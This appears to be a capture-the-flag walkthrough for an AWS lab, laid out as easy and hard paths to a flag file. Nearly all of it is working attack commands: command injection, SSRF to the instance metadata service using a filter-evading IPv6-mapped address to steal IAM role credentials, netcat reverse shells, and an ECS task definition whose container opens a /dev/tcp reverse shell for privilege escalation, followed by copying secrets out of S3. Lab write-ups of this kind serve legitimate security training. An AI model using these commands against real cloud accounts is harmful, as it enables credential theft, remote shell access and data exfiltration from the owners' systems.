 # Easy Path

Go to `http://<ec2_ip_address>`

### Command Injection

```
; aws s3 ls
; aws s3 ls s3://<bucket-name>/
; aws s3 cp s3://<bucket-name>/flag.txt .
; cat flag.txt
```

### SSRF
```
# SSRF Attack.
http://<ec2_ip_address>/?url=http://[::ffff:a9fe:a9fe]/latest/meta-data/iam/security-credentials/<role>

# Configure credentials.
aws configure --profile attacker
echo "aws_session_token = <token>" >> ~/.aws/credentials

# Access to S3.
aws s3 ls
aws s3 ls s3://<bucket-name>/
aws s3 cp s3://<bucket-name>/flag.txt .
cat flag.txt
```


# Hard Path

Go to `http://<ec2_ip_address>`

### SSRF

```
http://<ec2_ip_address>/?url=http://[::ffff:a9fe:a9fe]/latest/meta-data/iam/security-credentials/<role>
aws configure --profile attacker
echo "aws_session_token = <token>" >> ~/.aws/credentials
```

### Command Injection

- prepare another host for revshell attack with `nc -lvp 4000`
- command injection on web with `; nc <ip_address> 4000 -e /bin/sh &`

### For more information

- more information about iam

```
aws sts get-caller-identity
aws iam get-role --role-name <role>
aws iam list-attached-role-policies --role-name <role>
aws iam list-role-policies --role-name <role>
aws iam get-role-policy --role-name <role> --policy-name <policy>
aws iam list-roles
```

- more information about ecs

```
aws ecs list-clusters --region <region>
aws ecs describe-clusters --region <region> --clusters <cluster>
aws ecs list-container-instances --region <region> --cluster <cluster_arn>
```

### ECS Privesc

* Attacker prepare revshell at other public ip point with `nc -lvp 4000`.

* And now come back to CLI.

```
# ECS Task definition with revshell command.
aws ecs register-task-definition --region <region> --family <task_name> --task-role-arn <task_role_arn> --network-mode "awsvpc" --cpu 256 --memory 512 --requires-compatibilities "[\"FARGATE\"]" --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/<revshell_ip>/<revshell_port> 0>&1\\\"\"]}]"

# For run-task, find available subnets.
aws ec2 describe-subnets --region <region>

# Run task.
aws ecs run-task --region <region> --task-definition <task_name> --cluster <cluster_arn> --launch-type FARGATE --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"<subnet>\"]}}"
```
After a few minutes, the revshell will be connected by container.
Let's do it on revshell.

### Access S3

```
apt-get update
apt-get install awscli

aws s3 ls
aws s3 ls s3://<bucket-name>/
aws s3 cp s3://<bucket-name>/secret-string.txt .
cat secret-string.txt
```